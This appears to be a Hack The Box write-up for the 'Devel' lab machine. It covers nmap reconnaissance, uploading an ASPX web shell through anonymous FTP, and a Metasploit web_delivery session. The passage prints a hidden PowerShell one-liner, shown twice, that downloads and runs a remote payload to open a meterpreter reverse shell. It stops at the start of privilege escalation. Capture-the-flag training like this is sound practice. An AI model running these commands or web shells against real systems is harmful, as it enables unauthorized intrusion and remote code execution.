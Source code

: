 ### Information Gathering

#### Nmap scan

nmap -sC -sV -oA -nmap 10.10.10.5

```
# Nmap 7.40 scan initiated Fri Jul 21 04:29:30 2017 as: nmap -sV -sC -oA nmap 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.33s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 07-24-17  06:58AM                 2940 finalwtf.aspx
| 07-24-17  07:17AM                 2932 htw.aspx
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 21 04:30:06 2017 -- 1 IP address (1 host up) scanned in 35.83 seconds

```

ftp-anon: Anonymous FTP login allowed - can be used to upload the web shell \(aspx\)

We can see here that it uses the Microsoft-IIS/7.5 which means the web server is powered by ASP

#### Exploitation and Gaining Access

Aspx web shell used:

https://github.com/unbaiat/maliciouspieceofcodethatcanbeuploadedtoasitetogainaccesstofilesstoredonthatsite/blob/master/aspxshell.aspx

After uploading the web shell, I accessed the web shell on the web browser.

Since I have a web shell or backdoor installed, I can now execute some commands. For example i can run a powershell command to download and execute the meterpreter reverse tcp. To execute the meterpreter reverse shell, I fired up the metasploit console and searched the web\_delivery exploit.

**Actual commands here:**

    kaipowered@debian:~/Documents/HTB/Devel$ msfconsole


                                       .,,.                  .
                                    .\$$$$$L..,,==aaccaacc%#s$b.       d8,    d8P
                         d8P        #$$$$$$$$$$$$$$$$$$$$$$$$$$$b.    `BP  d888888p
                      d888888P      '7$$$$\""""''^^`` .7$$$|D*"'```         ?88'
      d8bd8b.d8p d8888b ?88' d888b8b            _.os#$|8*"`   d8P       ?8b  88P
      88P`?P'?P d8b_,dP 88P d8P' ?88       .oaS###S*"`       d8P d8888b $whi?88b 88b
     d88  d8 ?8 88b     88b 88b  ,88b .osS$$$$*" ?88,.d88b, d88 d8P' ?88 88P `?8b
    d88' d88b 8b`?8888P'`?8b`?88P'.aS$$$$Q*"`    `?88'  ?88 ?88 88b  d88 d88
                              .a#$$$$$$"`          88b  d8P  88b`?8888P'
                           ,s$$$$$$$"`             888888P'   88n      _.,,,ass;:
                        .a$$$$$$$P`               d88P'    .,.ass%#S$$$$$$$$$$$$$$'
                     .a$###$$$P`           _.,,-aqsc#SS$$$$$$$$$$$$$$$$$$$$$$$$$$'
                  ,a$$###$$P`  _.,-ass#S$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$####SSSS'
               .a$$$$$$$$$$SSS$$$$$$$$$$$$$$$$$$$$$$$$$$$$SS##==--""''^^/$$$$$$'
    _______________________________________________________________   ,&$$$$$$'_____
                                                                     ll&&$$$$'
                                                                  .;;lll&&&&'
                                                                ...;;lllll&'
                                                              ......;;;llll;;;....
                                                               ` ......;;;;... .  .


           =[ metasploit v4.15.5-dev-                         ]
    + -- --=[ 1674 exploits - 959 auxiliary - 294 post        ]
    + -- --=[ 489 payloads - 40 encoders - 9 nops             ]
    + -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

    msf > 
    msf > search web_delivery

    Matching Modules
    ================

       Name                                                   Disclosure Date  Rank    Description
       ----                                                   ---------------  ----    -----------
       exploit/multi/script/web_delivery                      2013-07-19       manual  Script Web Delivery
       exploit/windows/misc/regsvr32_applocker_bypass_server  2016-04-19       manual  Regsvr32.exe (.sct) Application Whitelisting Bypass Server


    msf > use exploit/multi/script/web_delivery
    msf exploit(web_delivery) > show options

    Module options (exploit/multi/script/web_delivery):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT  8080             yes       The local port to listen on.
       SSL      false            no        Negotiate SSL for incoming connections
       SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH                   no        The URI to use for this exploit (default is random)


    Payload options (python/meterpreter/reverse_tcp):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST                   yes       The listen address
       LPORT  4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Python


    msf exploit(web_delivery) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Python
       1   PHP
       2   PSH


    msf exploit(web_delivery) > set target 2
    target => 2
    msf exploit(web_delivery) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(web_delivery) > run
    [*] Started reverse TCP handler on 0.0.0.0:4444 
    [*] Using URL: http://0.0.0.0:8080/2HUTvO3SZKKZ
    [*] Local IP: http://192.168.8.2:8080/2HUTvO3SZKKZ
    [*] Server started.
    [*] Run the following command on the target machine:
    powershell.exe -nop -w hidden -c $J=new-object net.webclient;$J.proxy=[Net.WebRequest]::GetSystemWebProxy();$J.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $J.downloadstring('http://192.168.8.1:8080/2HUTvO3SZKKZ');


I copied and pasted the powershell command to the web shell then poof we got a shell.

```
powershell.exe -nop -w hidden -c $J=new-object net.webclient;$J.proxy=[Net.WebRequest]::GetSystemWebProxy();$J.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $J.downloadstring('http://192.168.8.1:8080/2HUTvO3SZKKZ');
```

#### Privilege Escalation

After I got a shell, I searched the "suggester" from metasploit to use and automate and search the available vulnerabilities and their exploits on the vulnerable machine.

```
msf exploit(web_delivery) > search suggester

Matching Modules
================

   Name                                      Disclosure Date  Rank    Description
   ----                                      ---------------  ----    -----------
   post/multi/recon/local_exploit_suggester                   normal  Multi Recon Local Exploit Suggester


msf exploit(web_delivery) > 

```



